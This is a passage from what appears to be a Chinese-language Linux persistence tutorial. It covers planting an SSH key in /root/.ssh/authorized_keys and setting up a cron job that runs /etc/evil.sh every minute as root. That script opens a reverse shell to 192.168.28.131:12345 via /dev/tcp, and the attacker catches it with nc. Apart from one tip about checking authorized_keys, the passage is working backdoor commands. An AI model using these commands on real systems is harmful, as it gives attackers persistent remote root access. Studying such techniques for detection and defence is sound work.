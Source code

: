 过程中按三次回车，执行结束如下图:

![img](assets/privilege-5-2.png)

进入`/root/.ssh/`文件夹，查看文件夹的内容，如下所示：

![img](assets/privilege-5-3.png)

其中 `id_rsa`为私钥，`id_rsa.pub`为公钥，接下来打开`id_rsa.pub`，将内容复制到服务器。将`id_rsa.pub`的内容追加到`/root/.ssh/authorized_keys`内，配置完成。

排查技巧：查看`/root/.ssh/authorized_keys`是否被修改。

### crontab反弹shell

crontab命令用于设置周期性被执行的指令。新建shell脚本，利用脚本进行反弹。

a、创建shell脚本，例如在`/etc/evil.sh`

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.28.131/12345  0>&1
chmod +sx /etc/evil.sh
```

b、`crontab -e` 设置定时任务

```sh
#每一分钟执行一次
*/1 * * * * root /etc/evil.sh
```

重启`crond`服务，`service crond restart`，然后就可以用`nc`接收shell。

